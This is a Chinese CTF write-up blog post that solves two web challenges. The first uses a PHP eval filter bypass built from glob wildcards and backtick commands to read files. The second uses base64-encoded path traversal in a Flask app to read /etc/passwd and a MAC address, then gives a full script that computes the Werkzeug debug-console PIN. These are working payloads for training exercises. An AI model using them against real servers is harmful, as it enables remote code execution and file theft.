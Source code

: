 ```yaml
---
title: 学习CTF之安恒题记
date: 2018-11-12 00:07:58
tags:
  - CTF
  - 信息安全
  - web安全
  - write-up
categories: 信息安全
---
```


# 前言



一边无奈学习开发，一边不想放下自己的喜爱的信息安全方向。但我也怕顾此失彼啊，无奈。这里顺手记录下题解吧，不定时append

<!-- more -->


# babybypass

> 出自：[linkedbyX-11.11特别赛①](https://xpro-adl.91ctf.com/match/CTF125/) PS：这个题目其实就是安恒9月web题原题。

```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```

从GET中取code键值两个要求

- 长度不能超过35
- 符合`[A-Za-z0-9_$]+`正则表达式，不能出现字母数字和`_$`

Orz，感觉思考不出来，只记得ph牛博客中好像有一遍可以不用字母就能构造shell的。于是找了一波资料原来是这种操作。

因为正则把$给限制了加之长度限制，所以这里不能用构造变量的方法，于是采用Linux下的glob通配符

- `*`可以代替0个及以上任意字符
- `?`可以代表1个任意字符

```http
GET /?code=?><?=`/???/???%20/???/???/????/*`?> HTTP/1.1
Host: 101.71.29.5:10049
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

用`?>`先闭合前面，再`<??>`使用反引号来执行shell命令

![index.php源码](https://upload-images.jianshu.io/upload_images/14657587-7a8643e864544eda.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


读到了index.php源码，flag文件就在/flag下面，那就直接读它

```http
GET /?code=?><?=`/???/???%20/????`;?> HTTP/1.1
Host: 101.71.29.5:10049
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

flag{aa5237a5fc25af3fa07f1d724f7548d7}
```



这道题涉及到的知识点太多了，各位大佬的博客也是脑洞打开，各种奇淫巧技都有。后面再专做文章研究吧，在此不展开

## reference

- ph牛
  - [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
  - [无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

- 安全客：[CTF题目思考--极限利用](https://www.anquanke.com/post/id/154284)

- 一叶飘零师傅：[2018安恒杯-9月月赛Writeup](http://skysec.top/2018/09/24/2018%E5%AE%89%E6%81%92%E6%9D%AF-9%E6%9C%88%E6%9C%88%E8%B5%9BWriteup/)
- Angel_Kitty：[记一次拿webshell踩过的坑(如何用PHP编写一个不包含数字和字母的后门](http://www.cnblogs.com/ECJTUACM-873284962/p/9433641.html)





# 粗心的程序员呀

> 出自：[LinkedbyX-11.11特别赛③](https://xpro-adl.91ctf.com/match/CTF123/) PS：这个好像是8月月赛原题

打开地址，发现注册会报错，从错误信息中发现是Flask且开了debug，在页面中需要pin码就能打开console。还发现了页面image的src路径有蹊跷。测试是base64编码。于是存在任意文件读取漏洞。

![报错](https://upload-images.jianshu.io/upload_images/14657587-58bd1b6e5d9ac6f3.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


flask并不太熟悉，Python web我还没好好学flask，于是看了一波资料。又是大佬们的长篇精彩分析，这题的题解如下

根据文章对pin码的生成分析，要获取6个变量值

```python
username # 用户名

modname # flask.app

getattr(app, '__name__', getattr(app.__class__, '__name__')) # Flask

getattr(mod, '__file__', None) # flask目录下的一个app.py的绝对路径

uuid.getnode() # mac地址十进制

get_machine_id() # /etc/machine-id
```

放到这题中来分别读取的payload为

1. username为ctf，读取`../../..//etc/passwd` 这里从页面中知道了脚本路径，这里引用相对路径。还有即使不知道，无线向上..也是可以的，payload url为
   `curl http://101.71.29.5:10057/image/Ly4uLy4uLy4uL2V0Yy9wYXNzd2Q=`

2. modename模块名为flask.app

3. uuid.getnode这个是mac地址十进制，为2485377892354。我们先用读/sys/class/net/eth0/address，在转下十进制就好了，payload url为
   `curl http://101.71.29.5:10057/image/Ly4uLy4uLy4uL3N5cy9jbGFzcy9uZXQvZXRoMC9hZGRyZXNz`

4. get_machine_id这个这里是空，`/etc/machine-id`和`/proc/sys/kernel/random/boot_id`都空白内容。不知额

5. app的`__name__`为Flask

6. mod的`__file__`这里试了网页上爆出的路径为`/usr/local/lib/python2.7/dist-packages/flask/app.py`但是这样生成的pin就是不对额，后来看表哥们的wp，这里要用pyc。

   > PS：pyc是Python的编译后的字节码文件，如果py文件没有修改的话，都是执行pyc文件的，如果py源文件修改了pyc文件会重新编译。而且还有一个很重要的点，如果py源文件不存在，会执行pyc文件的！！原pyc文件。

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'ctf',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892354'# str(uuid.getnode()),  /sys/class/net/eth0/address # 网卡十进制，读完转一下
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

最终的pin为131-442-946

然后在网页中读取下文件flag内容

![读取flag](https://upload-images.jianshu.io/upload_images/14657587-9bce46950d64ca06.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)



## reference

- 先知：https://xz.aliyun.com/t/2553
- [Flask debug 模式 PIN 码生成机制安全性研究笔记](http://www.91ri.org/17362.html)



## Mark

- Flask安全周边学习
- Flask开发学习





后续更新~